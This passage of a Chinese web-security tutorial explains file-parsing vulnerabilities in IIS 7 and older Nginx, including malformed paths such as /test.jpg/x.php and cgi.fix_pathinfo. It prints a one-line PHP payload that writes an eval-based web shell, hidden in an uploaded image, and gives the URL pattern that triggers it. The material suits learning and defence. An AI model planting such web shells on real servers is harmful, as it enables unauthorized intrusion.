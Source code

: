 形式：

```url
www.xxx.com/xxx.asp;.jpg
```

### <mark style="color:orange;background-color:yellow;">（3）畸形解析漏洞</mark>

原理：(/test.jpg/\*.php)

在 IIS7.0中，在默认Fast-CGI开启状况下，我们往图片里面写入下面的代码

```
<?php fputs(fopen('shell.php','w'),'<?php @eval($_POST[x])?>')?>
```

将文件保存成test.jpg格式，上传到服务器，假设上传路径为/upload，上传成功后，直接访问/upload/test.jpg/x.php，此时神奇的畸形解析开始发挥作用啦。test.jpg将会被服务器当成php文件执行，所以图片里面的代码就会被执行。我们会神奇的发现在 /upload 目录下创建了一个一句话木马文件 shell.php 。

形式：

```url
www.xxx.com/upload/test.jpg/x.php
```

这个漏洞和接下来介绍的Nginx漏洞是一样的。

## <mark style="color:purple;">二.Nginx解析漏洞</mark>

### <mark style="color:orange;background-color:yellow;">(1)畸形解析漏洞</mark>

原理：（test.jpg/\*.php)

在nginx<0.8.03环境中，我们新建一个文件，内容为：\<?php phpinfo() ?> ，然后将其名字修改为: test.jpg

在浏览器中访问http://192.168.10.139/test.jpg 显示图片解析错误。在浏览器中访问 http://192.168.10.139/test.jpg/test.php ，显示：Access denied. 。这就奇怪了，test.jpg是文件不是目录，test.php更是根本就不存在的文件，访问/test.jpg/test.php没有报404，而是显示 Access denied. 。这是到底为啥？

原因在于，Nginx拿到文件路径（更专业的说法是URI）/test.jpg/test.php 后，一看后缀是.php，便认为该文件是php文件，于是转交给php去处理。php一看 /test.jpg/test.php 不存在，便删去最后的/test.php，又看/test.jpg存在，便把/test.jpg当成要执行的文件了，又因为后缀为.jpg，php认为这不是php文件，于是返回 Access denied. 。

条件：

cgi.fix\_pathinfo=1，一般默认都开启的。\
形式：

```url
www.xxx.com/upload/test.jpg/test.php
```

### <mark style="color:orange;background-color:yellow;">(2)%00空字节代码解析漏洞</mark>

原理：(xxx.jpg%00.php)
